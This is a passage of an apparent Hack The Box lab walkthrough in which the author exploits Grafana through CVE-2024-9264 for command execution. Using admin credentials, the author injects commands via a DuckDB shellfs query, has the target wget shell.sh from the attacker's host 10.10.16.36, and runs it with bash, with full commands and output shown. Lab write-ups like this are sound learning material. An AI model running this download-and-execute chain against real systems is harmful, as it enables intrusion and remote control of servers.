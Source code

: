 ```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Host the `shell.sh` file on the our kali machine.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'wget http://10.10.16.36/shell.sh' http://grafana.planning.htb/
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: wget http://10.10.16.36/shell.sh
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('wget http://10.10.16.36/shell.sh >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
--2025-08-18 15:21:23--  http://10.10.16.36/shell.sh
Connecting to 10.10.16.36:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 54 [text/x-sh]
Saving to: 'shell.sh'

     0K                                                       100% 1.40K=0.04s

2025-08-18 15:21:24 (1.40 KB/s) - 'shell.sh' saved [54/54]
```

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.237.241 - - [18/Aug/2025 11:21:23] "GET /shell.sh HTTP/1.1" 200 -
```

We successfully download the file.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'ls' http://grafana.planning.htb/     
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
LICENSE
bin
conf
public
shell.sh
```

Now let's execute it.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'bash shell.sh' http://grafana.planning.htb/
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: bash shell.sh
```
